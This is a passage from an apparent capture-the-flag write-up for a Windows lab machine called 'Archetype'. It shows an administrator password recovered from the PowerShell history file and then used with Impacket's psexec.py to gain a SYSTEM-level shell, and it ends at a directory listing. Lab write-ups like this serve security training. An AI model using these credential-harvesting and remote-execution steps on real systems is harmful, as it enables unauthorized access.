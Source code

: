 ## Privilege Escalation

A good first place to look for privilege escalation on Windows is the powershell history.  This file exists at:

```
# cd ~/AppData/Roaming/Microsoft/Windows/PowerShell/PSReadLine
# ls


    Directory: C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
-ar---        3/17/2020   2:36 AM             79 ConsoleHost_history.txt                                               


# cat ConsoleHost_history.txt
net.exe use T: \\Archetype\backups /user:administrator MEGACORP_4dm1n!!
```

So from the history file, we can see that the user switched to admin to mount the backups file, and typed their password into the command.

We can now use Impacket's psexec.py to connect to the server as admin:

```
└─$ psexec.py administrator@10.10.10.27
Impacket v0.9.24.dev1+20210720.100427.cd4fe47c - Copyright 2021 SecureAuth Corporation

Password:
[*] Requesting shares on 10.10.10.27.....
[*] Found writable share ADMIN$
[*] Uploading file tQRiLVIo.exe
[*] Opening SVCManager on 10.10.10.27.....
[*] Creating service zBUM on 10.10.10.27.....
[*] Starting service zBUM.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>powershell
Windows PowerShell 
Copyright (C) Microsoft Corporation. All rights reserved.

C:\Windows\system32>powershell
Windows PowerShell 
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Windows\system32> cd C:\Users\Administrator\Desktop
PS C:\Users\Administrator\Desktop> ls
s


    Directory: C:\Users\Administrator\Desktop


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
```
